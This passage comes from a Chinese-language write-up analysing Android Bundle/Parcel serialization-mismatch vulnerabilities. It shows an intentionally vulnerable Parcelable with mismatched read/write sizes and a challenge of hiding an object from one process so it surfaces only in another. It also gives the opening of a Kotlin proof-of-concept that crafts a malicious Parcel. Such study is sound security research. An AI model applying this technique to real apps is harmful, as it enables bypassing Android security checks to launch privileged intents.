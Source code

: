 ```java
Bundle b = new Bundle();
// Fill b
Bundle c = new Bundle(b.writeToParcel()); // 模拟通过 IPC 发送 b 的过程
```

我们先以如下问题代码为例，复习一下上面提到的利用过程，可见构造函数和writeToParcel是不匹配的

```java
public class Vulnerable implements Parcelable {
    private final long mData;

    protected Vulnerable(Parcel in) {
        mData = in.readInt();
    }

    @Override
    public void writeToParcel(Parcel parcel, int flags) {
        parcel.writeLong(mData);
    }

    ...
}
```

需要利用的跨进程通信流大致如下：

```markdown
- A: Sends Bundle x to B
- A: <x is serialized>
- B: <x is deserialized>
- B: Inpects x (TOC) and sends to C
- B: <x is serialized>
- C: <x is deserialized>
- C: Uses x (TOU)
```

需要完成的挑战：在来自B的Bundle中隐藏对象("intent"=>42)，让其只能在C中出现，环境为Android 12

让我们来布局一下整个PoC，能看到在两边出现了不匹配的情况

![image.png](/images/android_serialization_and_deserialization_vulnerability_analysis/be0f311b-c69e-4036-9f51-e6853eb291b9-1676313304982-1.png)

由于  `writeToParcel` 比 `createFromParcel` 多写入了一个字节，就会导致 $P_B$ 中读取Long的另一半作为下一个key的长度 ，那么造成的结果如下所示

![image.png](/images/android_serialization_and_deserialization_vulnerability_analysis/3be965b2-ebcc-45b0-9652-3869fc153123-1676313327049-4.png)

进而我们就可以得到完整的利用结构

![image.png](/images/android_serialization_and_deserialization_vulnerability_analysis/ba719236-4a67-43ce-9ec5-fcc3e1cb7110-1676313339514-7.png)

代码如下所示

```kotlin
val p = Parcel.obtain()

// header
p.writeInt(-1) // length, back-patch later
p.writeInt(0x4C444E42) // magic
val startPos = p.dataPosition()
p.writeInt(3) // numItem

// A0
p.writeString("A")
p.writeInt(Type.VAL_PARCELABLE)
p.writeString(Vulnerable::class.java.name)
p.writeInt(666) // mData

// A1
```